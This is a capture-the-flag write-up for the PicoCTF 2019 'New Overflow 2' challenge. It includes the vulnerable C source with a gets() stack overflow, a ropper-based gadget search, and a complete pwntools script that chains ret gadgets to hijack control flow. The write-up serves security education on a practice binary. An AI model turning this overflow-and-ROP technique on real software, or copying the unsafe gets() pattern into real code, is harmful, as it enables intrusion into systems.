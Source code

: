[Back](PicoFrontPage.md)

# New Overflow 2
---

### Intro
* You'll need to understand 64-bit calling conventions for this challenge

### Tools Used
* GEF-GDB
* Pwntools
* Favourite text editor
* Ropper

### Source Code
```c
bool win1 = false;
bool win2 = false;

void win_fn1(unsigned int arg_check) {
  if (arg_check == 0xDEADBEEF) {
    win1 = true;
  }
}

void win_fn2(unsigned int arg_check1, unsigned int arg_check2, unsigned int arg_check3) {
  if (win1 && \
      arg_check1 == 0xBAADCAFE && \
      arg_check2 == 0xCAFEBABE && \
      arg_check3 == 0xABADBABE) {
    win2 = true;
  }
}

void win_fn() {
  char flag[48];
  FILE *file;
  file = fopen("flag.txt", "r");
  if (file == NULL) {
    printf("'flag.txt' missing in the current directory!\n");
    exit(0);
  }

  fgets(flag, sizeof(flag), file);
  if (win1 && win2) {
    printf("%s", flag);
    return;
  }
  else {
    printf("Nope, not quite...\n");
  }


  

}

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("'flag.txt' missing in the current directory!\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Welcome to 64-bit. Can you match these numbers?");
  vuln();
  return 0;
}

```

#### Important Points:
* We have to set both bool variables (win1 and win2) to true so that the `win_fn()` function will print out the flag
* The `flag()` function

### Analysis
For this solution, you can actually just use the same method and script to solve it because of the `flag()` function being left in (most probably an accident).

I decided to go a different route and solve it through return-oriented programming. 
First, I tried to `pop` the arguments into the appropriate registers. 

To search for relevant ROP instructions I used ropper:
`ropper -f ./vuln`
To search for specific ROP instructions:
`ropper -f ./vuln --search "Enter instruction here"`

E.g. `ropper -f ./vuln --search "pop rdi"`

<!-- Insert pop rdi image here -->
![Pop RDI](../Images/PicoCTF2019/NewOverflow2poprdi.JPG)

However, I could not find a relevant instruction that included the `rbx` register.
So, I tried to skip directly to the addresses that set `win1` and `win2` variables to `true`.

<!-- Insert Disassembler image here -->
![win_fn1 disas](../Images/PicoCTF2019/NewOverflow2winfn1disas.JPG)

<!-- Insert Disassembler image here -->
![win_fn2 disas](../Images/PicoCTF2019/NewOverflow2winfn2disas.JPG)

I chained a bunch of `ret` instructions with the appropriate addresses and devised the appropriate script to execute.

### Exploit

Final script:

```python
from pwn import *

p = process('./vuln')

# variables
win1 = 0x400777 # win1 = true
win2 = 0x4007b4 # win2 = true
ret = 0x40028d # ret instruction
win_fn = 0x4007be # win_fn function address

#payload
payload = b'A'*72
payload += p64(ret)
payload += p64(win1)
payload += p64(ret)
payload += p64(win2)
payload += p64(ret)
payload += p64(win_fn)

# receive until character
p.recvuntil(b'?')

# send payload as one line
p.sendline(payload)

# get a shell
p.interactive()
```

To run it through the pico2019 server you'll need the `ssh` feature:
```python
s = ssh(host='2019shell1.picoctf.com', user='YourUsername', password='YourPassword')
p = s.process('AbsolutePathToProgram', cwd='TheWorkingDirectoryOfProgram')
```

Run the script and you should win.

[New Overflow 1](newoverflow1.md)
